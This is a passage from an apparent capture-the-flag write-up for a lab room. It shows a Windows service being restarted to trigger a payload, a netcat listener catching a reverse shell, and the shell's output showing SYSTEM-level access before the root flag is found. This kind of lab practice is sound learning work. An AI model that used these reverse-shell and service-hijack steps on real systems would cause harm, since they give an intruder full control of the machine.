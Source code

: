 `net start AdvancedSystemCareService9`

Now back on our new netcat listener...

```
nc -lvnp 4443                
listening on [any] 4443 ...
connect to [10.13.62.120] from (UNKNOWN) [10.10.207.64] 49383
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

# Post Exploitation 
Then we just navigate to the Administrator's Desktop folder and find the root flag!

And it turns out there's a section at the bottom of the room about performing this exploit without metasploit. Hah! 

![[BlueSteelComplete.png]]


